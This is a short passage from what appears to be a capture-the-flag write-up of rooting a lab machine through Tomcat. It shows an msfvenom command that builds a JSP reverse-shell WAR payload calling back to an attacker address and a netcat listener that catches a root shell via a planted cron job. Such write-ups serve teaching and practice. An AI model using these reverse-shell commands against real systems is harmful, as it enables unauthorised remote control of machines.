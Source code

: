 ![image](assets/82759803-88ef8600-9dbd-11ea-8208-648f3de22b69.png)

Because I was going to be running the exploit and listening on netcat on port 3000 I needed a second session. I create a second payload with msfvenom for port 4201 and uploaded it to Tomcat Web Application Manager.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=4201 -f war > rshell2.war
```

Once logged in on the second session I set up a netcat listener for port 3000.

```
nc -lvnp 3000
```

Once the container downloaded the .wgetrc file and created the cron job I waited and after a few minutes I received a callback and had shell as the root user.
